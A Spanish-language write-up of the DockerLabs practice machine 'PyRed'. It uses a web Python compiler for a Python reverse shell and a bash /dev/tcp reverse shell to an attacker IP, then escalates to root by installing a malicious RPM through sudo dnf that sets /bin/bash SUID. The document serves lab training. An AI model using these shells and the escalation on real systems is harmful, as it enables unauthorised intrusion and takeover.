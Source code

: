 # Máquina PyRed


Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
5000/tcp open  upnp    syn-ack
```

Lo abrimos en el navegador:

![Pasted image 20240415012043](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6e9add48-cee5-45ab-8adf-cea807dbd0f1)

Parece un compilador web donde podemos ejecutar comandos de python. Si por ejemplo ejecutamos:

```python
var = 7 + 7
print(var)
------------------
OUTPUT:
14
```

-------------

## Explotación

Vemos que interpreta python correctamente.
Por lo que trataremos de enviarnos una **Reverse shell**:

Nos pondremos en escucha con **netcat**:

```shell
nc -nlvp 3333
```

Introduciremos en la web:

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.37", 3333))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

Siendo la 192.168.1.37 la IP de mi máquina atacante.

Podemos utilizar cualquier **Reverse Shell** con python que queramos. (Las hay más sencillas)

---------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.37/443 0>&1" 
```

(Siendo la 192.168.1.37 mi IP de la máquina atacante)

-------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

Hacemos un "**sudo -l**" para ver si podemos ejecutar algo como root.

```shell
sudo -l
----------------------
User primpi may run the following commands on af8905045dea:
    (ALL) NOPASSWD: /usr/bin/dnf
```

Vemos que podemos ejecutar **/usr/bin/dnf**. Herramienta esencial para la administración de paquetes en sistemas Linux basados en Fedora.
Si no sabemos como abusar de esta utilidad, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/)

En nuestra máquina atacante crearemos un archivo **.rmp** malicioso. Con el comando que nos interese ejecutar como root.

```shell
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Lo transferiremos a la máquina víctima, por ejemplo con un servidor con python en la máquina atacante:

```shell
sudo python3 -m http.server 80
```

Y lo descargamos en la máquina víctima:

```shell
wget http://192.168.1.37/x-1.0-1.noarch.rpm
```

Instalamos el paquete malicioso que hemos creado con **dnf**:

```shell
sudo /usr/bin/dnf install -y x-1.0-1.noarch.rpm
```

Al instalarlo, hemos cambiado la bash a **SUID**.
Como podemos ejecutarla como root:

```shell
bash -p
whoami
-----------------
root
```

Hemos conseguido el nivel de privilegios máximos en la máquina !
